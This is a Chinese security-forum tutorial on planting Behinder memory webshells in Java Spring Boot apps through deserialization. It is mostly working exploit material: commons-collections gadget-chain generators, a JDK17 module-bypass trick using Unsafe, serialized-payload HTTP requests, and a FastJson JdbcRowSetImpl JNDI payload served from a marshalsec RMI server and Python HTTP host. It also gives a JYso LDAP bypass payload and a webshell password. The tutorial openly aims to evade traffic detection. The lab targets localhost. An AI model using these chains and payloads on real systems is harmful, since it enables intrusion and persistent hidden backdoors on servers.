







# 如果通过反序列化进行打马-先知社区

> **来源**: https://xz.aliyun.com/news/17364  
> **文章ID**: 17364

---

# 为什么要打马

现在很多反序列化的复现文章，都是以 `弹计算器` 为复现成功的证据

弹计算器本质上就是执行命令，也就是相当于拿到别人的shell了

但是站在攻击者的视角，直接以命令执行的方式攻击是不会知道命令执行的结果，因为结果是在服务器上呈现的

所以很自然而然想到通过命令执行来进行反弹shell来进行攻击

但到今天的这种攻防环境下，反弹shell的流量特征肯定会被设备检测到，那为了规避检测就进行内存马的注入

当然直接注入cmd内存马，流量肯定也会被设备检测到，那么如果注入冰蝎马，使用冰蝎的加密流量就能规避

# 直接反序列化打马

## 靶场环境搭建

* 创建Maven项目后修改依赖，创建一个SpringBoot2的工程

这边先采用经典的JDK8，后面有针对JDK17的SpringBoot3教程

```
<properties>
    <maven.compiler.source>8</maven.compiler.source>
    <maven.compiler.target>8</maven.compiler.target>
    <!-- Spring Boot 版本 -->
    <spring-boot-dependencies.version>2.7.2</spring-boot-dependencies.version>
</properties>
```

```
<dependencies>
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-web</artifactId>
    </dependency>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```

```
<dependencyManagement>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-dependencies</artifactId>
            <version>${spring-boot-dependencies.version}</version>
            <type>pom</type>
            <scope>import</scope>
        </dependency>
    </dependencies>
</dependencyManagement>
```

* 创建SpringBoot启动类

```
package org.example;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class DemoApplication {

    public static void main(String[] args) {
        SpringApplication.run(DemoApplication.class, args);
    }
}
```

* 创建Controller路由处理类

可以很明显的看到，这边就是接收 data 参数的值，然后base64解码后进行反序列化

```
package org.example.controller;

import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RestController;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;

@RestController
public class DemoController {
    @PostMapping("/Behinder")
    public String hello(String data) throws Exception {
        byte[] decodedBytes = Base64.getDecoder().decode(data);
        Object object = deserialize(decodedBytes);
        System.out.println(object);
        return "冰蝎马测试";
    }
    private Object deserialize(byte[] bytes) throws Exception{
        try (ByteArrayInputStream bais = new ByteArrayInputStream(bytes);   // 别改
             ObjectInputStream ois = new ObjectInputStream(bais)) {
            return ois.readObject();
        }
    }
}
```

## 准备序列化数据

为了演示成果，在依赖中加了CC链，这边就用CC链生成一下序列化数据

* 首先下载JMG工具，用来生成Tomcat的冰蝎马

<https://github.com/pen4uin/java-memshell-generator/>

因为我们用的SpringBoot技术栈，所以中间件为Tomcat

**注意除了** `AbstractTranslet` **需要勾选上，其他的不选也行 ，至于为什么要勾上这个可以去看看CC链**



* 然后运行如下代码，生成冰蝎马的CC链恶意数据

只需要改动Class的文件路径就行了

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"Drunkbaby");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
// ----------------------------------------------- Here -----------------------------------------------     
        byte[] evil = Files.readAllBytes(Paths.get("C://CSVUtil.class"));
// ----------------------------------------------- Here -----------------------------------------------
        byte[][] codes = {evil};
        bytecodesField.set(templates,codes);
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        Transformer[] transformers = new Transformer[]{new ConstantTransformer(TrAXFilter.class), instantiateTransformer};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");
        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "value");
        lazyMap.remove("key");
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factoryField = lazyMapClass.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, chainedTransformer);
        serialize(expMap);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
}
```

## 打马

* 刚刚运行的代码会生成一个bin文件，我们把它base64编码一下



* 然后把编码后的结果直接放到下面的数据包发过去就行了

**记得base64编码后要进行URL编码，一定要做**

```
POST /Behinder HTTP/1.1
Host: 127.0.0.1:8080
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: navigate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Sec-Fetch-Dest: document
Sec-Fetch-User: ?1
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Accept-Encoding: gzip, deflate, br, zstd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
Content-Type: application/x-www-form-urlencoded

data=[这边]
```

## 测试

* 不用管服务器的报错，直接根据JMG的提示用冰蝎连接就行了



## 总结

这边其实就是一个CC链的反序列化，然后我们通过ClassLoader把冰蝎的逻辑导入内存中，形成内存马

# JDK17问题解决

## 问题说明

以JDK17来复现上面的反序列化靶场会失败，因为JDK17需要保证有下面的这两种任意的情况才能够调用成功

`调者所在模块和被调用者所在模块相同` 或 `调用者模块与Object类所在模块相同`

那解决方式就是，我们就直接注入到目标的模块中就行了

## 解决流程

* 首先用JDK17创建SpringBoot3应用

这个可以直接创建，我就不用Maven的形式创建了

* 添加上CC链子

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

* 然后增加一个Controller `controller.DemoController`

```
import jakarta.servlet.http.HttpServletRequest;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;

@RestController
public class DemoController {
    @RequestMapping("/test")
    public void start(HttpServletRequest request) {
        try{
            String payload=request.getParameter("shellbyte");
            byte[] shell= Base64.getDecoder().decode(payload);
            ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(shell);
            ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

* 然后JMG生成冰蝎马，记得选择 `jakarta` 的监听器，高版本的包名全换了

如果有CC链，我们注入器的包名必须是 `org.apache.commons.collections.functors` 的子类

然后勾选上 `ByPass JDK Module`



* 在测试类中新建一个攻击类，进行生成恶意序列化数据

可以直接运行，会输出base64后的数据

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import sun.misc.Unsafe;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.invoke.MethodHandles;
import java.lang.reflect.Field;
import java.net.URLEncoder;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Main{
    public static void main(String[] args) throws Exception{
        patchModule(Main.class);
        String shellinject="[JMG生成数据]";             // 只需要改这个就行了
        byte[] data=Base64.getDecoder().decode(shellinject);


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(MethodHandles.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"lookup", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("defineClass", new Class[]{byte[].class}, new Object[]{data}),
                new InstantiateTransformer(new Class[0], new Object[0]),
                new ConstantTransformer(1)
        };
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        innerMap.remove("keykey");

        setFieldValue(transformerChain,"iTransformers",transformers);
        System.out.println(URLEncoder.encode(Base64.getEncoder().encodeToString(serialize(expMap))));
    }

    private static void patchModule(Class classname){
        try {
            Class UnsafeClass=Class.forName("sun.misc.Unsafe");
            Field unsafeField=UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe=(Unsafe) unsafeField.get(null);
            Module ObjectModule=Object.class.getModule();
            Class currentClass=classname.getClass();
            long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass,addr,ObjectModule);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) {
        try {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj, value);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public static byte[] serialize(Object object) {
        try {
            ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream=new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(object);
            objectOutputStream.close();
            return byteArrayOutputStream.toByteArray();
        }catch (Exception e){
            e.printStackTrace();
        }
        return null;
    }
}
```

* 然后发包，博客返回包是500，但是我们200也是正常的

```
POST /test HTTP/1.1
Host: 127.0.0.1:8080
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "Windows"
Sec-Fetch-Mode: navigate
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Dest: document
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

shellbyte=[结果]
```

* 然后冰蝎连接



# Ldap打马

## 说明

LDAP相较于直接的反序列化，是需要反连的，最常见的两个漏洞就是FastJson和log4j2

我就使用了 `1.2.24` 这个版本的

因为后续都只需要修改Payload，而准备JNDI服务器等步骤都是差不多一样的

## 靶场环境搭建

* 先按照原始配置搭建SpringBoot2
* 导入新依赖

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```

* 修改SpringBoot启动项目

```
@SpringBootApplication
public class DemoApplication {
    public static void main(String[] args) {
        SpringApplication.run(DemoApplication.class, args);
    }
    @Bean
    public HttpMessageConverters fastJsonHttpMessageConverters() {
        FastJsonHttpMessageConverter fastConverter = new FastJsonHttpMessageConverter();
        FastJsonConfig fastJsonConfig = new FastJsonConfig();
        fastJsonConfig.setSerializerFeatures(SerializerFeature.PrettyFormat);
        fastConverter.setFastJsonConfig(fastJsonConfig);
        return new HttpMessageConverters((HttpMessageConverter<?>[]) new HttpMessageConverter[]{fastConverter});
    }
}
```

* 添加bean，作为反序列化的目标

```
public class User {
    @JSONField
    private String name;
    @JSONField
    private Integer age;

    public String getName() {
        return this.name;
    }
    public void setName(String name) {
        this.name = name;
    }
    public Integer getAge() {
        return this.age;
    }
    public void setAge(Integer age) {
        this.age = age;
    }
}
```

* 修改 `Controller`

```
@Controller
public class DemoController {
    @RequestMapping(value = {"/"}, method = {RequestMethod.GET}, produces = {"application/json;charset=UTF-8"})
    @ResponseBody
    public Object getUser() {
        User user = new User();
        user.setName("Bob");
        user.setAge(25);
        return user;
    }

    @RequestMapping(value = {"/"}, method = {RequestMethod.POST}, produces = {"application/json;charset=UTF-8"})
    @ResponseBody
    public Object setUser(@RequestBody User user) {
        user.setAge(20);
        return user;
    }
}
```

* 抓包访问

一般来说，主要的问题就集中在 `application/json` 这个里面

```
POST / HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Content-Type: application/json

{
    "name":"haha",
    "age":22
}
```

## 攻击

* 模仿JMG生成的BCEL，写个Class出来进行注入

```
public class BehinderTest {
    static {
        try {
            new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("[JMG生成的BCEL]").newInstance();
        }catch (Exception e){
        }
    }
    public static void main(String[] args) {            // 不加这个生成不了Class文件
        System.out.println("123");
    }
}
```

* 然后把这个`BehinderTest`这个类拿出来放到一个目录里面，然后Python开个HTTP服务

```
python -m http.server 4444
```

* 然后上传工具 `marshalsec-0.0.3-SNAPSHOT-all.jar` 搭建LDAP服务器

目标访问服务器端口7777，然后服务器转发到4444，最后获取到刚刚编译的这个恶意类 `BehinderTest`

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://127.0.0.1:4444/#BehinderTest" 7777

```

* 最后浏览器进行发包

```
{
  "b":{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://127.0.0.1:7777/BehinderTest",
    "autoCommit":true
  }
}
```

* 冰蝎4连接成功



# 高版本问题解决

这里的高版本就是JDK8的高版本了，JDK8U191往后就不能再想上面这样进行注入了，需要通过本地来绕过

这边就直接推荐JYSO这个工具 <https://github.com/qi4L/JYso/>

* 监听

```
java -jar JYso-1.3.4.jar -j
```

* 攻击Payload

```
ldap://127.0.0.1:1389/TomcatBypass/M-EX-MS-TFMSFromThread-bx
```

* 冰蝎连接密码和请求头

```
# 浏览器访问 ?/qi4l这个目录
p@ssw0rd
Referer: https://QI4L.cn/
```

* 不过有限制，springboot版本不能太高，太高了这个本地的工厂类会被修复



​
